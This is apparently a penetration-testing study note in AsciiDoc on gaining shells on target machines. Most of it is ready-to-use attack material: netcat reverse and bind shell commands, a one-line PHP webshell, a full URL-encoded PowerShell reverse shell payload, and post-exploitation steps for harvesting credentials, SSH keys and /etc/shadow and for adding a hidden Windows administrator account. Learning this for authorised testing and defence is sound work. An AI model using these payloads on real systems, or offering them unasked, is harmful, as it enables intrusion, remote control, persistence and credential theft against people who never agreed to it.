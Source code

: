 = Shell

sh, bash, zsh, ... for Linux, and cmd.exe, powershell for Windows

Should use `-p` to preserve permissions when starting a shell.

== Types

=== Reverse shell
Command line access on a server. The target is forced to execute code that connects back to our computer's listener.

Good way to bypass firewall rules, but we need to configure our network to accept this connection.

Easier to execute and debug.

On attacking machine
[source, bash]
----
nc -lvnp 443
----

On target machine
[source, bash]
----
nc [attacking machine ip] 443 -e /bin/bash
----

*We are listening on our own attacking machine, and sending a connection from the target.*

=== Bind shell
Open up a port on a server, connect to it and execute commands. The code executed on the target is used to start a listener attached to a shell directly on the target.

We don't have to configure our network but this may be prevented by target's firewall rules.

On attacking machine
[source, bash]
----
nc [target machine ip] 443
----

On target machine
[source, bash]
----
nc -lvnp 443 -e "cmd.exe"
----

*We are listening on the target, then connecting to it with our own machine.*

=== Interactive vs Non-Interactive shells
Interactive: powershell, bash, zsh, ... we can interact with programs after executing them => ssh then fingerprint then...

Non-Interactive: can only use programs which do not require user interaction in order to run properly. => ssh won't work here, only commands like whoami, ...

=== WebShell
Upload a an executable file to a website to get a reverse/bind shell is not always possible so we can try to upload a webshell (script that runs inside a webserver and returns result on the page).

[source, php]
----
<?php echo "<pre>" . shell_exec($_GET["cmd"]) . "</pre>"; ?>
----
then GET /shell.php?cmd=ifconfig

Check in Kali at /usr/share/webshells or https://raw.githubusercontent.com/pentestmonkey/php-reverse-shell/master/php-reverse-shell.php[PentestMonkey php-reverse-shell] for Linux webserver.

When the target is Windows, it is often easiest to obtain RCE using a web shell or by using msfvenom to generate a reverse/bind shell in the language of the server.

URL encoded to pass to ?cmd ->
[source, bash]
----
powershell%20-c%20%22%24client%20%3D%20New-Object%20System.Net.Sockets.TCPClient%28%27<IP>%27%2C<PORT>%29%3B%24stream%20%3D%20%24client.GetStream%28%29%3B%5Bbyte%5B%5D%5D%24bytes%20%3D%200..65535%7C%25%7B0%7D%3Bwhile%28%28%24i%20%3D%20%24stream.Read%28%24bytes%2C%200%2C%20%24bytes.Length%29%29%20-ne%200%29%7B%3B%24data%20%3D%20%28New-Object%20-TypeName%20System.Text.ASCIIEncoding%29.GetString%28%24bytes%2C0%2C%20%24i%29%3B%24sendback%20%3D%20%28iex%20%24data%202%3E%261%20%7C%20Out-String%20%29%3B%24sendback2%20%3D%20%24sendback%20%2B%20%27PS%20%27%20%2B%20%28pwd%29.Path%20%2B%20%27%3E%20%27%3B%24sendbyte%20%3D%20%28%5Btext.encoding%5D%3A%3AASCII%29.GetBytes%28%24sendback2%29%3B%24stream.Write%28%24sendbyte%2C0%2C%24sendbyte.Length%29%3B%24stream.Flush%28%29%7D%3B%24client.Close%28%29%22
----

== Tools and payloads
netcat, socat, metasploit with multi/handler, msfvenom

payloads can also be found in several places:

* https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Reverse%20Shell%20Cheatsheet.md[PayloadsAllTheThings - Github]
* https://web.archive.org/web/20200901140719/http://pentestmonkey.net/cheat-sheet/shells/reverse-shell-cheat-sheet[Reverse Shell Cheatsheet - pentestmonkey]
* Kali Linux's /usr/share/webshells
* https://github.com/danielmiessler/SecLists [SecLists - Github]

== Next steps
* check for credentials
* check for SSH keys
* check for writeable /etc/shadow or /etc/passwd to give us access to the machine
* check registry on Windows (VNC, ...)
* check FileZilla credentials that can be stored in plaintext (FileZilla server.xml)

If we get a shell as SYSTEM user on Windows, add an account in the admin groups then log in over RDP, telnet, winexe, psexec, WinRM, ...

[source, bash]
----
net user <username> <password> /add
net localgroup administrators <username> /add
----

Reverse and bind shell should be temporary, the goal is to get a fully featured native shell.